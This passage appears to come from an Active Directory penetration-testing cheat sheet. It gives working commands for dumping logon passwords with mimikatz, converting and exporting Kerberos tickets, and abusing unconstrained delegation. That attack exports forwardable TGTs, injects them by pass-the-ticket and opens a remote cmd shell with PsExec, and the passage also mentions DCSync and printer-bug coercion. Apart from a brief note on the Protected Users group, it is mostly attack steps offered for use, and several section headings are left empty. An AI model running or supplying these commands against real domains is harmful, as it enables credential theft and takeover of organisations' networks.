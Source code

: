 ```console
mimikatz.exe "sekurlsa::logonpasswords" exit
```

#### Convert to ccache

We can use the tool `ticket_converter` written by `zer1t0` for converting kirbi tickets to ccache and viceversa:

```console
Convert from b64 encoded blob to kirbi:
  [IO.File]::WriteAllBytes("C:\fullpathtoticket.kirbi", [Convert]::FromBase64String("aa…"))
Convert the .kiribi to .ccache:
  python ticket_converter.py ticket.ccache ticket.kirbi
Copy the ccache to our attacker machine and export the KRB5CCNAME variable:
  export KRB5CCNAME=/path/to/ticket.ccache
```

#### GenericAll

#### GenericWrite

#### WriteDACL

#### Unconstrained Delegation

We have local adminstrative access to a host which is configured for Kerberos Unconstrained Delegation.
We can leverage Rubeus for an auth from the DC and then steal the TGT, this can be used to perform a DCSync to obtain the NTLM hash for ANY account.
Other way is by triggering the printer bug on a domain controller to coerce to authenticate to the host compromised we have using it's machine account.

If a computer account has `TRUSTED_FOR_DELEGATION` in it's UserAccountControl (UAC), then it's a viable target.
Domain controllers will also have `SERVER_TRUST_ACCOUNT_UAC`, so...if it the machine has this, then it's a DC.

##### By Forwardable TGT after login

```console
1 - Enumerate if there if there is unconstrained delegation
2 - If there is, open mimikatz (commands blow are inside it)
3 - privilege::debug <-- Enable debug
4 - sekurlsa::tickets <-- List all the present tickets
5 - Through phishing or visit of a page, if the user has Windows Auth then it will use kerberos
6 - sekurlsa::tickets <-- Verify if there are new TGT's
7 - sekurlsa::tickets /export <-- If new TGT and marked as forwardable export them to disk
8 - kerberos::ptt /inject:<some-exported-tkt-file.kirbi> <-- Inject the exported ticket into memory
9 - C:\Windows\Temp\PsExec.exe \\example.com cmd <-- Try to get a cmd shell in example.com by leveraging injected ticket

* By default every user allows their TGT to be delegated, but high privilege users can be added to the group "Protected Users Group" to disable it, it also can break the application for which at the beggining unconstrained delegation was enabled for those users
```
